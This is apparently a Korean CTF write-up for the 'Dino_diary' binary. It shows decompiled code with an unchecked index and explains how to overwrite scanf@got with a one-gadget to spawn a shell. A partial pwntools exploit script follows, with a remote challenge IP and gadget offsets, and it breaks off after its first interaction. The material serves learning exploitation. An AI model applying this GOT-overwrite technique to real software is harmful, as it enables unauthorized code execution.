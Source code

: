 ```cpp
char *modify_comment()
{
  char *result; // rax
  char s[24]; // [rsp+0h] [rbp-20h] BYREF
  unsigned int v2; // [rsp+18h] [rbp-8h] BYREF
  size_t nbytes; // [rsp+1Ch] [rbp-4h]

  memset(s, 0, 0x14uLL);
  printf("input modify comment number: ");
  __isoc99_scanf("%d", &v2);
  result = (char *)check_index(v2);
  LODWORD(nbytes) = (_DWORD)result;
  if ( (_DWORD)result )
  {
    printf("input comment: ");
    read(0, s, (unsigned int)nbytes);
    return strcpy(&com[32 * v2 + 10], s);
  }
  return result;
}
size_t __fastcall check_index(int a1)
{
  if ( com[0x20 * a1 + 10] )
  {
    if ( strlen(&com[32 * a1 + 10]) > 0x14 )
      return strlen(&com[32 * a1 + 10]);
    else
      return 20LL;
  }
  else
  {
    puts("Wrong Input");
    return 0LL;
  }
}
```

modify_comment 함수에서는 인덱스를 검사하는데, 

got table 주변 주소로 옮기면 다른 주소가 주변에 있어서 0이 아닌지 검사를 우회할 수 있다.

+10 에 입력받아서 붙어있는 getchar, setvbuf 의 주소를 아무값이나 덮고

scanf@got 을 원샷으로 덮으면, 다음으로 scanf 가 호출되기 떄문에 터지지 않고 쉘을 딸 수 있다.

```python
from pwn import *
import subprocess
import sys

slog = lambda s,n:log.info(": ".join([s,hex(n)]))
context.binary = binary = "./Dino_diary"
library="./libc.so.6"
# context.log_level='debug'
context.arch="amd64"
b=ELF(binary,checksec=False)
if '1' in sys.argv:
    r = remote("52.78.171.46", 8080)
    lib=ELF(library,checksec=False)
else:
    r = b.process()
    lib = b.libc
oneshot=[0x10a41c,0x4f432,0x4f3d5]

r.sendlineafter(": ","3")
```